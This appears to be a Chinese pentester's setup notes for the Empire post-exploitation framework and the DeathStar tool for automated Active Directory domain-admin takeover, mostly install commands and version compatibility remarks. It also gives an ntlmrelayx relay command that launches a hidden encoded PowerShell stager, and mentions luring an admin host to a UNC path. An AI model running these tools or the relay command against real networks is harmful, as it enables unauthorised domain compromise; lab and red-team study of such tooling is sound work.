




## 简介 

Empire 是一个后渗透框架，它是针对于powershell的内网渗透工具，适合域渗透的场景。集成了 RESTful API接口，方便扩展。


### RESTful API

REST，表示性状态转移（representation state transfer）。简单来说，就是用URI表示资源，用HTTP方法(GET, POST, PUT, DELETE)表征对这些资源的操作。

Representation： 数据的某种表现形式，如HTML, JSON。

State Transfer：状态变化，HTTP方法实现

**RESTful API 要求前端以一种预定义的语法格式发送请求，那么服务端就只需要定义一个统一的响应接口，不必像之前那样解析各色各式的请求。**

https://www.jianshu.com/p/dbee5199cf23


## 安装

Empire运行在linux平台上,不要试图使用centos环境,安装前我们先看看install.sh脚本,建议使用Debian或Ubuntu,以及kali Linux系统,我使用的是kali。

kali 2020 (2020-10-29) 安装失败。 python 2.7.18

kali 2019 (2019-02-14) 安装成功。 python 2.7.15+

centos7 3.10.0-1062.1.1.el7.x86_64 安装失败。

[Empire](https://github.com/EmpireProject/Empire)


https://github.com/BC-SECURITY/Empire

主框架从 2018.3.16 一直没有更新。

也可以使用 bcsecurity团队的 docker安装：

	docker pull bcsecurity/empire:{version}

All image versions can be found at: https://hub.docker.com/r/bcsecurity/empire/

empire docker 安装 方式暂不知如何与 DeathStar 联动。

**建议在linux直接安装bcsecurity新版本empire**

(kali 2020 (2020-10-29) 安装成功。 python 2.7.18)

	git clone https://github.com/BC-SECURITY/Empire.git
	cd Empire
	sudo ./setup/install.sh

在 centos 安装提示 ```Unsupported OS. Exiting.```


### 安装组件 DeathStar

DeathStar is a Python script that uses Empire's RESTful API to automate gaining Domain Admin rights in Active Directory environments using a variety of techinques.

[DeathStar](https://github.com/byt3bl33d3r/DeathStar)

kali 2019 (2019-02-14) python 2.7.15+ ，pip安装依赖库失败。

先启动 empire:

	./empire --rest --username <username> --password <password> --restport <restapi port>



用docker安装：

	docker run --rm -it byt3bl33d3r/deathstar -u <empire_username> -p <empire_password> --api-host <empire_ip> --api-port <empire_port>

用户名密码填写 empire 设置的，连接成功会有提示：



empire输入 listeners 查看监听，可以看到新建的DeathStar的监听：



	launcher powershell Deathstar



可以用来中继攻击。

	python3 ntlmrelayx.py -t 10.10.40.52 -c 'powershell -noP -sta -w 1 -enc  [powershell code]'

诱导有管理权限的靶机访问UNC。

据 [渗透测试自动化：使用NTLM中继和Deathstar获取域管理员权限](https://www.cnblogs.com/linuxsec/articles/8337900.html) 说成功以后 DeathStar 会自动在域中检索，自动中继攻击。我实验未成功。


## 后记

py2 安装 pip：

	python2 -m pip install --upgrade pip --force-reinstall


## 参考资料

[横向移动之用DeathStar和Empire全自动域渗透](https://www.jianshu.com/p/b9f26c124391?utm_campaign=maleskine&utm_content=note&utm_medium=seo_notes&utm_source=recommendation)

[PowerShell Empire实战入门篇](https://www.freebuf.com/sectool/158393.html)


[Empire功能模块介绍](https://xz.aliyun.com/t/7071?accounttraceid=4ebe87c220674a97895a1833c45d7427nmiq)